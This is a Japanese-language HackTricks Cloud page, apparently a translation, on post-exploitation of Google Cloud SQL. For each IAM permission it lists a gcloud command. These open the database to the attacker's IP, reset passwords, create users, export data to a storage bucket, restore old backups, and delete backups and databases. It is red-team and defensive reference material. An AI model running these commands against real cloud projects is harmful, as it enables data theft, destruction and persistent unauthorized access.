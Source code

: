# GCP - Cloud SQLポストエクスプロイテーション

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[NFTs](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)で**フォロー**する
- **ハッキングトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## Cloud SQL

Cloud SQLに関する詳細情報は次を確認してください：

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, (`cloudsql.instances.get`)

データベースに接続するには、データベースポートへのアクセス権限と**ユーザー名**と**パスワード**を知っていれば十分であり、IAMの要件はありません。したがって、データベースにパブリックIPアドレスがあると仮定し、許可されたネットワークを更新して**自分のIPアドレスがアクセスできるように許可**するのが簡単な方法です。
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
**`--no-backup`**を使用して、データベースのバックアップを**中断**することも可能です。

これらが要件であるため、**`cloudsql.instances.connect`**および**`cloudsql.instances.login`**の権限が具体的に何を表すものなのか完全にはわかりません。詳細を知っている場合は、PRを送信してください！

### `cloudsql.users.list`

データベースの**すべてのユーザーのリスト**を取得します：
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

この権限は、データベース内に新しいユーザーを**作成する**ことを許可します。
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

この権限を使用すると、データベース内のユーザーを**更新**できます。たとえば、パスワードを変更できます：
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

バックアップには**古い機密情報**が含まれている可能性があるため、それらをチェックすることが興味深いです。\
**データベース内のバックアップを復元**します：
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
### `cloudsql.backupRuns.delete`

この権限を持つと、バックアップを削除できます。
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**データベースをエクスポート**して、それをそこからアクセスできるようにCloud Storageバケットに保存します：
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Cloud Storage バケットからデータベースをインポート**（上書き）:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

dbインスタンスからデータベースを削除します：
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong>を使用して、ゼロからヒーローまでAWSハッキングを学びましょう！</summary>

他のHackTricksのサポート方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい場合**は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションをご覧ください
- **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローしてください**
- **ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください**

</details>
